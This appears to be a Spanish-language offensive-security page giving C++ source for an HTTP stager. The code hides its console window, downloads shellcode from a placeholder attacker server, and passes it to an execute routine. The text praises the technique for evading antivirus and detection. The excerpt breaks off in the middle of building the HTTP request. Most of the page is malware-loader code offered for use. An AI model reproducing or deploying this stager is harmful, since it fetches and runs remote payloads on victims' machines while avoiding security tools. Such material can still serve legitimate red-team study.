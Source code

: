 # Stager HTTP  C++

Un stager, a diferencia de las técnicas mostradas en shellcode execution, es un payload que no contiene el shellcode en sí, sino que se encarga de descargar el shellcode desde un servidor y ejecutarlo posteriormente en la máquina víctima. Esto trae diversas ventajas, ya que el peso del payload es muy inferior al de un stageless. También ayuda a evitar la detección de antivirus y sistemas de detección.



## Código

```cpp
#include <windows.h>
#include <wininet.h>
#include <stdio.h>

#pragma comment (lib, "Wininet.lib")


struct Shellcode {
	byte* data;
	DWORD len;
};

Shellcode Download(LPCWSTR host, INTERNET_PORT port);
void Execute(Shellcode shellcode);

int main() {
	::ShowWindow(::GetConsoleWindow(), SW_HIDE); 

	Shellcode shellcode = Download(L"<ip-file-server>", <port-file-server>);
	Execute(shellcode);

	return 0;
}

Shellcode Download(LPCWSTR host, INTERNET_PORT port) {
	HINTERNET session = InternetOpen(
		L"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36",
		INTERNET_OPEN_TYPE_PRECONFIG,
		NULL,
		NULL,
		0);

	HINTERNET connection = InternetConnect(
		session,
		host,
		port,
		L"",
		L"",
		INTERNET_SERVICE_HTTP,
		0,
		0);

	HINTERNET request = HttpOpenRequest(
		connection,
		L"GET",
		L"<file-name>",
		NULL,
		NULL,
		NULL,
```